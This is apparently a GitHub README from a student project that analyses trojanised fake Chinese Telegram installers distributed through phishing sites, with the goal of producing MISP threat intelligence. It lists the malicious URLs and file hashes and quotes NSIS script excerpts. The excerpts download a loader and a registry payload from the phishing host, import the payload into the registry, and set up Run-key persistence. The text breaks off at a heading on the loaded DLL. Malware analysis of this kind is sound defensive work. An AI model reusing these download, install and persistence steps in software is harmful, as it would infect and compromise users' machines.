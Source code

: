 # Dangerous_Telegram
Contributor : [Lei HUANG](https://github.com/hualin999)

Tutors : Mr. [Alexandre DULAUNOY](https://github.com/adulau) & Mr. [Christian STUDER](https://github.com/chrisr3d)

## Project Context

As we all know, there is a firewall called "Great Firewall" in China. The Great Firewall is the combination of legislative actions and technologies enforced by the People's Republic of China to regulate the Internet domestically. Its role in internet censorship in China is to block access to selected foreign websites and to slow down cross-border internet traffic.

The effect includes : limiting access to foreign information sources, blocking foreign internet tools (e.g. Google Search, Facebook, Twitter, Wikipedia, and others) and **Mobile Apps**, and requiring foreign companies to adapt to domestic regulations.

Obviously our subject today is not "Great Firewall", but because of this, people in China cannot use Telegram through official downloads, and therefore Telegram does not release official Chinese installers and language packs. 

This has led to the uncontrolled (without legal constraints) spread of various **Trojans** and **Malware** disguised as phishing links (like official download link/installation package or Chinese installation package) or Chinese community chat files (Especially Telegram downloads chat files by default).

## Project Objective

**The purpose of this project is to analyze some Malware and Trojan samples that are currently spreading widely in the Telegram Chinese community, and to translate the relevant threat intelligence information into a specific analysis model for MISP.**

## Sample Analysis Procedure

The original sample was taken from http://telegram-vip.com, a phishing site disguised as a Chinese version of Telegram :

![alt Fake Chinese version of Telegram website](./images/p1.png)

The home page of the website has links to download the so-called versions, but if you click on the links to download "Telegram for Mac" or "Telegram for Windows", the downloaded file will be a Windows installer named "tsetup.2.1.10.exe". If you click on the link to download Telegram for Android or iPhone, you will be redirected to another page : 

![alt Download page](./images/p2.png)

Depending on the link clicked, the results vary :

- Clicking on the iPhone download link will redirect you to the normal Apple App Store : https://apps.apple.com/app/telegram-messenger/id686449807

- Clicking on the Android version will redirect you to another link to download the installer : https://telegrcn.org/download/telegramCN_631.apk

- Clicking on the Mac version download link will redirect you to another link to download the installer : https://telegrcn.org/download/tsetup.2.1.10.dmg

- Clicking on the Windows version is the same as the installation package downloaded from the home page.

Next, for the sake of time, we will first analyze the Windows version of the "installer".

## Malware installation package information

|Filename|SHA256|
|:--------:|:------:|
|telegram_setup.2.1.6.exe|1f09381186a82f070d7beda66f575efdecd92b76217b5a0d9b904c1d64c89fc8|
|telegram_setup.2.1.10.exe|35133a3283381aa503f0d415de3ab8111e2e690bd32ad3dddde1213b51c877ba
|

Both installers use the NSIS ([Nullsoft Scriptable Install System](https://nsis.sourceforge.io/Main_Page)) package, which can be extracted directly with 7-zip to get the restored installation script. 7-zip added automatic decompilation of the NSIS script in 9.33, but removed it in 15.06, so be aware that version must be in between.

The directory structure of the two versions after decompression is as follows : 

```
2.1.6/
├── $PLUGINSDIR                        // NSIS Related Files
│   ├── InstallOptions.dll
│   ├── ioSpecial.ini
│   ├── LangDLL.dll
│   ├── modern-wizard.bmp
│   └── TextReplace.dll
├── C                                  // The file will be copied directly to the corresponding location during installation
│   └── PerfLog
│       ├── AddInProcess.exe           // Backdoor (Loader)
│       └── AddInProcess.exe.config
├── [NSIS].nsi                         // NSIS scripts extracted by 7-zip
├── ns.reg                             // Payload Registry File
├── Telegram.exe                       // Telegram Desktop 2.1.6.0
├── uninst.exe.nsis
└── Updater.exe
```

```
2.1.10/
├── $PLUGINSDIR                        // NSIS Related Files
│   ├── InetLoad.dll
│   ├── InstallOptions.dll
│   ├── ioSpecial.ini
│   ├── LangDLL.dll
│   ├── modern-wizard.bmp
│   ├── System.dll
│   └── TextReplace.dll
├── [NSIS].nsi                         // NSIS scripts extracted by 7-zip
├── Telegram.exe                       // Telegram Desktop 2.1.6.0
├── uninst.exe.nsis
└── Updater.exe
```

Comparing the two versions, we can obviously notice that version 2.1.10 is missing the key backdoor files **C:\PerfLog** and **ns.reg**, 2.1.6 directly packaged these files together, but 2.1.10 changed the way, using the NSIS script to download these two files only during the installation process, which can be seen in the NSIS script. The following is an excerpt from the 2.1.10 NSIS.nsi script with some of the relevant commands : 

```
# Download loader and registry file
InetLoad::load /BANNER "" "Cameron Diaz download in progress, please wait ;)" http://www.telegram-vip.com/index2.php cnPath.exe
InetLoad::load /BANNER "" "Cameron Diaz download in progress, please wait ;)" http://www.telegram-vip.com/index3.php ns.reg
```

```
# Replace 123456 to <ComputerName> from ns.reg then use regedit.exe to import
ReadRegStr $R1 HKLM SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName ComputerName
TextReplace::_FindInFile /NOUNLOAD $INSTDIR\ns.reg 123456 /S=1
TextReplace::_ReplaceInFile /NOUNLOAD $INSTDIR\ns.reg $INSTDIR\ns.reg 123456 $R1 "/S=1 /C=1 /AO=1"
Exec "regedit.exe /s $\"$INSTDIR\ns.reg$\""
```

```
# Move $INSTDIR\cnPath.exe to C:\PerfLog\AddInProcess.exe
StrCpy $R0 $INSTDIR\cnPath.exe
StrCpy $R1 C:\PerfLog\AddInProcess.exe
System::Call "Kernel32::MoveFileA(t R0,t R1)"
```

```
# Setup service registry and run
WriteRegStr HKCU Software\Microsoft\Windows\CurrentVersion\Run telegramCnService C:\PerfLog\AddInProcess.exe
ExecShell "" C:\PerfLog\AddInProcess.exe
```

Understanding the above NSIS script can help us learn how it is infected and how it is persisted.

## Load file AddInProcess.exe

|Filename|SHA256|
|:----:|:----:|
|AddInProcess.exe (2.1.6)|f853c478fc57ac7e8bf3676b5d043d8bf071e2b817fe93d2acbd0333c46d1063|
|AddInProcess.exe (2.1.10)|379a9fcb8701754559901029812e6614c187d114e3527dd41795aa7647b68811
|

Basically, the content of the two files is not much different, only the metadata has changed, the File Version has changed from 1.0.0.0 to 1.3.0.0 : 

![alt File Basic Information](./images/p3.png)

The same structure and functions in .NET file :

![alt The same structure and functions in .NET file](./images/p4.png)

The same Main function : 

![alt The same Main function](./images/p5.png)

As you can see from the Main function above, AddInProcess.exe is just a loader, the real content is in the registry data imported during installation, located in HKEY_CURRENT_USER\Software\\<COMPUTERNAME\> which is a base64 coded DLL and an ip address :

![alt Registry Editor](./images/p6.png)

## Assembly.Load (Malware.dll)